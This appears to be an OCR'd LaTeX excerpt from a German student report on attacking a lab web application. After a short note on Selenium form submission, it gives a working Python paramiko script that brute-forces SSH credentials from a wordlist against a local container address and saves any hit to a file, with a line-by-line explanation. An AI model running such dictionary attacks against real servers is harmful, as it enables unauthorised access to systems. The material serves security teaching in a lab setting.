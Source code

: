 \documentclass[12pt]{article}
\begin{document}
Anfangs wird der entsprechende Treiber für den Firefox browser eingeladen(vgl. Zeile 2-3). Anschließend wird über die zuvor angelegte Datei mit den Html Dokumenten iteriert und jeweiligen Seiten mit browser.get' geöffnet. In der Seite 'biete.html' werden zudem Formulardaten eingetragen und abgeschickt(vgl. Zeile 5-22).
\newpage
\subsection{SSH Angriff}
Hierbei sollen Admin-Schnittstellen angegriffen und Kompromitiert werden.
Die Webanwendung wird über eine SSH Schnittstelle gewartet. Nun  wird versucht aanhand eines Wörtbuch Angriffes an die Anmeldedaten zu gelangen.
 \begin{lstlisting}[language=python, style=code, basicstyle=\scriptsize]
 def attackssh(ip):
 		try:
 			global que
 			if len(que)==0:
	 			print("Not found, maybe try a new wordlist?!")
	 			return 1
	 		print("Attacking ssh.....")
	 		ssh = paramiko.SSHClient()
	 		ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	 		for line in range(len(que)):
		 		[username, password] = que.popleft().strip().split()
		 		try:
		 			print(f"Trying with {username} {password}")
		 			conn = ssh.connect(ip, username=username,password=password, 			banner_timeout=200)
		 			if conn is None:
						print(username)
			 			credentials = open("cred.txt", "r+")
			 			credentials.write(username)
			 			credentials.write(" ")
			 			credentials.write(password)
			 			print(f"Successfully Authenticated with {username} {password}")
			 			break
			 except paramiko.AuthenticationException:
					print("Failed!")
			 		continue
			 except paramiko.SSHException:
			 		continue
			 except NameError:
					que = deque()
					for word in open("sshwordlist.txt", "r").readlines():
							que.append(word)
					attackssh("172.17.0.2")
				 										Figure 5: SSH-Attack
 \end{lstlisting}
Anfangs wird eine que angelegt, die in einer Exception befüllt wird(vgl. Zeile 28). Die Funktion wird anschließend erneut aufgerufen und es wird überprüft ob die que leer ist. \newpage Nun wird die Paramiko Biblothek aufgerufen(vgl. Zeile 8). Diese bietet SSH Implementierungen für client und serverseitige Funktionalitäten[6]. Ab Zeile 11 wird Username und Passwort aus der que ausgelesen und entsprechen formatiert. Nun wird versucht eine Verbindung mit den übergebenen Anmeldedaten herzustellen(vglt. Zeile 14). Ist die verbidnung erfolgreich, werden Nutzername und Passwort ausgegeben(vgl. Zeile 16) und in die Datei 'cred.txt' geschrieben. Im gleichen Schleifendurchlauf werden zudem exceptions abgefangen. Die Funktion findet das Passwort und gibt es aus.\\
\end{document}
